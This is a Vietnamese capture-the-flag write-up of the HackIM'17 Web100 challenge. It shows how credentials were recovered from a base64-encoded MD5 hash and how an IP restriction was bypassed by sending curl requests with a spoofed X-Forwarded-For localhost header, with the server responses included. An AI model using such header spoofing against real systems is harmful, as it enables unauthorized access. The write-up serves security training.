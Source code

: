 ## Web1

> Chris Martin wants to go home. Can you help him get there as soon as possible?<br>
> http://54.152.19.210/web100/

#### WriteUp

Đề bài có vẻ như yêu cầu mình phải đăng nhập đúng `username` và `password` để lấy được flag.

Đầu tiên, khi `viewsource`, mình phát hiện ra chuỗi base64 này

```
MmI0YjAzN2ZkMWYzMDM3NWU1Y2Q4NzE0NDhiNWI5NWM=
```

Decode nó ra và được đoạn md5 hash.

```
2b4b037fd1f30375e5cd871448b5b95c
```

Sau khi dùng `john` để crack và vô vọng, mình thử tìm kiếm trên Google về đoạn hash này và tìm thấy những thông tin khá thú vị.

<p align="center">
  <img src="img/Web1_01.png" />
</p>

Trong đó nói gì đó về tấm hình `coldplay-paradise.jpg`, có vẻ liên quan đến `username|password`. Thử tiếp tục tìm kiếm với từ khóa `Chris Martin Coldplay` thì mình tìm ra được Chris Martin là leader của nhóm nhạc Rock Coldplay, vậy chắc đúng rồi. Quay lại trang web và truy cập với `coldplay|paradise` xem.

Oops, lỗi `Mismatch in host table! Please contact your administrator for access. IP logged.`. Quay lại với đề bài, mình thấy `Chris Martin wants to go home` và `IP logged`, vậy phải làm gì đó để đưa IP về với `localhost`.

Thử dùng `curl`.

```
traioi$ curl -v http://54.152.19.210/web100/ --data "user=coldplay&pass=paradise" -H "Host: 127.0.0.1"
```

```html
<html>
<head>
<title>
HackIM'17 - Web100
</title>
</head>
<body>
<h1>HackIM'17 - Web100</h1>
<form method="POST" autocomplete="off">
<p>Username: <input type="text" name="user" id="user"></p>
<p>Password: <input type="password" name="pass" id="pass"></p>

<p>
<input type="submit" value="Submit"/> 
<input type="reset" value="Reset"/>
</p>
</form>

Mismatch in host table! Please contact your administrator for access. IP logged.
</body>
</html>
```

Èo, vẫn thế, nhưng mà vẫn còn cách khác để đưa anh ấy về nhà, thử dùng với header `X-Forwarded-For` xem.

```
traioi$ curl -v http://54.152.19.210/web100/ --data "user=coldplay&pass=paradise" -H "X-Forwarded-For: 127.0.0.1"
```

```html
<html>
<head>
<title>
HackIM'17 - Web100
</title>
</head>
<body>
<h1>HackIM'17 - Web100</h1>
<form method="POST" autocomplete="off">
<p>Username: <input type="text" name="user" id="user"></p>
<p>Password: <input type="password" name="pass" id="pass"></p>

<p>
<input type="submit" value="Submit"/> 
<input type="reset" value="Reset"/>
</p>
</form>

<font style="color:#FF0000"><h3>The flag is: 4f9361b0302d4c2f2eb1fc308587dfd6</h3><br\></font\>
</body>
</html>
```

Cuối cùng cũng chịu về nhà và gửi mình cái flag `flag{4f9361b0302d4c2f2eb1fc308587dfd6}`